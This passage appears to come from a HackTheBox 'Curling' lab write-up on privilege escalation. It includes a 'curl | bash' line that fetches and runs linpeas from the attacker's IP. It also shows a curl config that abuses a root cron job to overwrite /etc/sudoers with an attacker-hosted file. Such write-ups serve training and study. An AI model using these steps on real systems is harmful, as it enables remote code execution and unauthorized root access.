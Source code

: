 [Linpeas Link](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh)

Download in our Kali

```sh
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:38:43.png)

Now we execute on the machine

```sh
curl -s 10.10.14.15/linpeas.sh | bash
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:40:00.png)

No sucess, nothing useful. We keep enumerating the box, and found two ways of privilege escalation in it.

## Cron

To see it we use the `pspy`

```
https://github.com/DominicBreuker/pspy
```

Download on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:57:15.png)

And execute it

We see that it's executing some `cron` activities

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:57:58.png)

The first, is using cron. If we look at the admin-area folder, we see two archives, `input` and `report`.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2007:57:56.png)

Seems to be making a request using curl, we can try to see some archive on the user machine trough it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:01:15.png)

We see on the cron, that it's making a `curl -K` and after replacing it to the default file.

We see on the man, what we can do with the -K option

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2008:03:05.png)

So we will make our Floris, a sudoers

```
url = "http://10.10.14.15/sudoers
output = "/etc/sudoers"
user-agent = "superagent/1.0"
```
